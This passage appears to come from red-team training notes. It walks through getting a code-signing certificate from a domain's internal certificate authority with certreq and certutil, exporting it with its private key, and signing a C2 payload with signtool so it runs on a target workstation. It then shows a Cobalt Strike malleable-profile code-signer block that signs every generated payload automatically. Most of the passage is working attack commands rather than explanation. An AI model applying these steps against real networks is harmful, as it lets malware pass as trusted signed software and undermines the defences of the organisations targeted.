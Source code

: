 ```

[EnhancedKeyUsageExtension]
OID=1.3.6.1.5.5.7.3.3
```
2. The important aspects to note is the Subject field, CertificateTemplate and OID.  Next, convert this file into binary CSR format. `certreq -new -config sub-ca.acme.corp\sub-ca acme.inf acme.csr`
3. The CSR can then be submitted to the CA. `certreq -submit -config sub-ca.acme.corp\sub-ca acme.csr cert.cer`
4. The provided certificate does not include the private key, so we have to install the certificate and then re-export it with the private key. `certreq -accept cert.cer`
5. List the certificates in the user's personal store to get the ID of the cert that we just imported. `certutil -user -store My`
6. In this case, there is only one, so the ID is 0.  Export it with the private key and a password. `certutil -user -exportpfx -privatekey -p pass123 My 0 acme.pfx`
7. The exported PFX then needs to be downloaded to the attacker's machine where it can be used to sign binaries.  The `signtool` utility can be used for this (which comes with the Windows SDK) and is best run from a Visual Studio Developer prompt. `signtool sign /f acme.pfx /p pass123 /fd SHA256 C:\Payloads\https_x64.exe`
8. The signed binary will run on Workstation 3.

### Signing with cobalt strike

Cobalt also has a code-signing workflow which allows you to automatically sign executable payloads at the time they are generated. 
1. Because it's a java app, we have to create an appropriate java keystore with the keytool utility. This will create a new keystore and private key. `keytool -genkey -alias server -keyalg RSA -keysize 2048 -storetype jks -keystore keystore.jks -dname "CN=ACME Corp"`
2. Generate a CSR from this keystore `keytool -certreq -alias server -file req.csr -keystore keystore.jks`
3. This then needs to be submitted to the ADCS service.  If it's enabled, a nice way to do this is via the CertSrv web UI. At www.domain.com/certsrv/
4. Select _Request a certificate > advanced certificate request_.  Paste the CSR into the text box and select the correct certificate template.
5. Click Submit and then download the certificate chain, which will be in p7b format.
6. transfer this across to the team server and import it into the keystore `keytool -import -trustcacerts -alias server -file certnew.p7b -keystore keystore.jks`
7. The final step is to add a new `code-signer` block to the malleable C2 profile.  This is similar to how we provided the HTTPS keystore previously
```
code-signer {
    set keystore "keystore.jks";
    set password "pass123";
    set alias "server";
}
```

8. Restart the team server and go to _Payloads > Windows Stageless Generate All Payloads_.  Tick the "sign" checkbox and all your executable payloads will be signed.